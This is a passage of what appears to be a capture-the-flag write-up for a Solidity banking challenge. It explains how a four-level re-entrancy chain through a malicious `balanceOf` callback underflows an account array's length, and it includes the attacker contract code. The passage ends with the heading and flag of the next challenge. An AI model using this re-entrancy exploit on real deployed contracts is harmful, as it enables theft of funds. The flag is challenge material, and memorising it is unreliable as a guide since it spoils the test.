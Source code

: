 We now know the arguments with which to call the `setAccountName(accountId, value)` function once we have arbitrary write access.

#### But how do we actually underflow the `accounts[msg.sender].length` value?

Notice how solidity **version 4** is used and `.length` is directly decremented in two functions: `withdrawToken` and `closeLastAccount`. The token contract arguments are _unchecked_ so we can use them for re-entrancy. The re-entrancy here is complex because both functions only decrement if `length > 0` and `account.uniqueTokens == 0`.

I solved it by a re-entrancy attack that is **four levels deep**, always recursing to the attacker contract on the first `balanceOf` in these functions:

```solidity
deposit(0, address(this), 0) // re-enter on first balance,
    withdraw(0, address(this), 0) // re-enter on first balance,
        deposit(0, address(this), 0) // re-enter on first balance,
              closeLastAccount() // (passes .length > 0 && uniqueTokens == 0)
        deposit continues execution and sets uniqueTokens to 1
    withdraw continues execution and deletes account again (passes uniqueTokens == 1 check)
deposit continues execution and we do not care about what it does
```

The corresponding solidity code of my `balanceOf` function:

```solidity
// start re-entrancy chain
reentrancyState = 1;
bank.depositToken(0, address(this), 0);

function balanceOf(address /* who */) public returns (uint256) {
    if (reentrancyState == 1) {
        reentrancyState++;
        bank.withdrawToken(0, this, 0);
    } else if (reentrancyState == 2) {
        reentrancyState++;
        bank.depositToken(0, this, 0);
    } else if (reentrancyState == 3) {
        reentrancyState++;
        // close before deposit uniqueTokens++ is reached
        bank.closeLastAccount();
    }

    return 0;
}
```

## Bouncer

> Can you enter the party?
>
> Flag: `PCTF{SH0ULDV3_US3D_W37H}`
